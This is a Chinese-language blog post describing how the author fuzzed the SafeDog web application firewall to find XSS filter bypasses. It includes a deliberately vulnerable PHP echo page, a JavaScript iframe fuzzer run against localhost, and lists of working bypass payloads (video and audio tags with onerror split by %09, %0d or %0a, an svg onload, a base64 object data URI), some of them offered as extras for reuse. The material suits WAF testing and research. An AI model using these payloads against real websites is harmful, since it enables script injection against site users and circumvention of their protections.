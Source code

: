 ```yaml
---
title: 一次bypass安全狗xss的fuzz思路及实现
date: 2019-10-11 17:18:00
layout: post
tags:
- bypass
- xss

---
```


> 在看到key发出的fuzz出的严重的真的是柠檬了，突然想到了key的小密圈的xss bypass safedog，于是就想出来试试fuzz来bypass安全狗的xss防护规则，于是有了这个比较菜的文章

#### 思路

&emsp;&emsp;XSS本质上是JS，但JS代码往往要在`<script>`标签内或者在 "On" 事件和 "javascript" 伪协议内才可以执行，往往挖掘XSS的时候我们会插入一个标签来测试是否过滤了`<`、`>`，来进行下一步操作。然后用js去动态添加iframe，src为fuzz xss的地址，通过alert的数字来定位payload

所以我们首先是需要了解HTML标签的结构，可以查看前面的 [浏览器渲染原理](http://console-log.cn/2017/06/20/browser_running_view/) 
标签由`<`、`标签名`、`控制字符`、`属性名`、`数据值`、`事件名`、`事件值`、`>`构成（我觉得，如果存在错误的话谅解一下）On 事件实际是事件名
##### 开始表演
>标签表达式: <标签名 控制字符 属性名="数据值" 控制字符 事件名="事件值">

将这些标签名 控制字符 属性名 数据值 事件名 事件值放在数组上以便使用

#### FUZZING
我在本地搭建了好了环境
php文件: `index.php`:
```
<?php
echo $_GET[fuzz];
?>
```
dog:
![dog](http://console-log.cn/img/5.jpg)

通过burp来测试一下安全狗过滤了哪些标签
![labs](http://console-log.cn/img/1.jpg)

发现有这些标签是没有被过滤的
>a
b
q
br
dd
dl
dt
h1
h2
h3
h4
h5
h6
hr
bdi
bdo
big
del
dfn
dir
div
kbd
map
var
wbr
abbr
area
base
body
head
html
main
mark
menu
meta
aside
audio
meter
video
applet
button
dialog
header
keygen
acronym
address
article
details
basefont
datalist
menuitem
blockquote

##### 控制字符：
>%09
%00
%0d
%0a

太多就放这几个就可以了

属性名：
>onload
onerror

同上

然后我们使用js来动态添加iframe来加载我们的payload
code：
```
var i,j,k,xss,f=0;
var ons = ["onload","onerror"];
var labs = ["a","b","q","br","dd","dl","dt","h1","del","abbr","video","base","audio","details"];
var hexs= ["%09","%00","%0d","%0a"];
for(i=0;i<labs.length;i++){
    for(j=0;j<hexs.length;j++){
        for(k=0;k<ons.length;k++){
            xss = f+'<'+labs[i]+hexs[j]+ons[k]+"=alert("+f+") src=a>a";
            var body = document.getElementsByTagName("body");
            var div = document.createElement("div");
            div.innerHTML = f+"<iframe src=\"http://127.0.0.1/index.php?fuzz="+xss+"\"></iframe>";
            document.body.appendChild(div);
            f = f+1;
        }
    }
}

```

我这边选取了几个标签和事件还有控制字符，因为太多的话请求过大，事件太久了，证明一下思路即可

因为很多`onload`、`onerror`都是和`src`属性名配合使用的，所以我在xss payload标签山添加了src

然后放在浏览器测试：
![xss](http://console-log.cn/img/2.jpg)
很快我们就收获了几个可以绕过安全狗的xss payload
然后更具alert出来的值快速定位payload地址 得到了两个标签下的payload
```
<video%09onerror=alert(81) src=a>
<video%0donerror=alert(85) src=a>
<audio%09onerror=alert(97) src=a>
<audio%0donerror=alert(101) src=a>
<audio%0aonerror=alert(103) src=a>
```
还有没复制全，证明了一下这个思路是可行的，而且我们也收获了一些bypass safedog的xss payload

附赠几个payload：
```
<dd%09onclick=alert(1)>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<svg onload="javascript:alert(1)" xmlns="http://www.w3.org/2000/svg"></svg>
<img/11111111111111111111111111111/src=x/onerror=alert(1)>
<input onclick=alert(1) value=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa>
```





